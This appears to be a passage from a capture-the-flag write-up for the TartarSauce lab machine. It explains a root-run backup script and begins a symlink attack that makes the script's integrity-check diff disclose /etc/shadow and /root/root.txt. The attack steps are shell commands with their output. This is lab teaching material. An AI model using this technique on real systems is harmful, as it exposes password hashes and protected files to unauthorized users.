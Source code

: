 ```
# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Script analysis
> 1) Work directories and a random temporary file name is generated
> 2) Header is printed
> 3) Test message is generated
> 4) Cleanup
> 5) Change user context to onuma and backup /var/www/html into the tempfile
> 6) Sleep 30 seconds
> 7) Create directory for integrity check
> 8) Unatar newly created file into the check directory
> 9) Execute diff to check for differences between archive and file system
> 10) If no differences cleanup and save newly created archive, backing up the old one
> 11) Otherwise log all differences to the log file

Attack
> A) with _www-data_ user create empty files under _/var/www/html_ 
```
www-data@TartarSauce:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@TartarSauce:/var/www/html$ touch 1
www-data@TartarSauce:/var/www/html$ touch 2
www-data@TartarSauce:/var/www/html$
```
> B) with _onuma_ user create _var/www/html/_ structure under /var/tmp and symlink _/etc/shadow_ to _1_ and _/root/root.txt_ to _2_
```
$ cd /var/tmp
$ pwd
/var/tmp
$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
$ mkdir -p var/www/html
$ cd var/www/html
$ ln -s /etc/shadow 1
$ ln -s /root/root.txt 2
$ ls -la
total 8
drwxr-xr-x 2 onuma onuma 4096 Nov 20 10:37 .
drwxr-xr-x 3 onuma onuma 4096 Nov 20 10:36 ..
```
